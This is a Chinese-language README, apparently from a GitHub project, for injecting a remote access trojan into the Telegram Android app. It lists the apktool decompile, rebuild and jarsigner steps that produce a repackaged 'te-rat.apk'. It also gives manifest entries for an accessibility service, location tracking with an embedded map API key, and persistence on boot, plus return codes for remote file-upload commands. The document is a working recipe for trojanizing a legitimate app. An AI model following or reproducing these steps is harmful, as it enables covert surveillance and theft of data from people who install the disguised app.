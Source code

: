 # Android码（Telegram）
### insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

### Telegram 编译打包
-gradlew makeJar  // 生成jar
-dx --dex --output ratdex.jar rat.jar // 转换jar
-java -jar apktool_2.4.1.jar d app-debug.apk // 反编译APK，得到smail
-java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
-jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

#### 指令返回
## 0          //success
## 10001      //没有权限，无法执行操作
## 10002      //文件上传失败，请重试
## 10003      //指令参数错误，参数为目录
## 10004      //文件夹已存在
## 10005      //文件夹创建失败

#### Telegram 配置
### AccessibilityService
## <service
##     android:name="com.hhm.android.otherapp.myService"
##     android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
##     <intent-filter>
##         <action android:name="android.accessibilityservice.AccessibilityService"/>
##     </intent-filter>
##     <meta-data
##         android:name="android.accessibilityservice"
##         android:resource="@xml/accessibility"/>
## </service>

### 高德地图
## <service android:name="com.amap.api.location.APSService" />
## <meta-data
##     android:name="com.amap.api.v2.apikey"
##     android:value="9ca8190b472b1e379bb7b11943b60618" />

### 开机自启动
## <uses-permission android:name="android.permission.DISABLE_KEYGUARD" />
## <receiver
##     android:name="com.hhm.android.otherapp.BootReceiver"
##     android:enabled="true"
##     android:exported="true"
##     android:priority="1000">
##     <intent-filter android:directBootAware="true">
##         <action android:name="android.intent.action.BOOT_COMPLETED" />
##         <action android:name="android.intent.action.LOCKED_BOOT_COMPLETED" />
##         <action android:name="android.intent.action.QUICKBOOT_POWERON" />
##         <action android:name="android.intent.action.REBOOT"/>
##         <category android:name="android.intent.category.HOME" />
##     </intent-filter>
## </receiver>

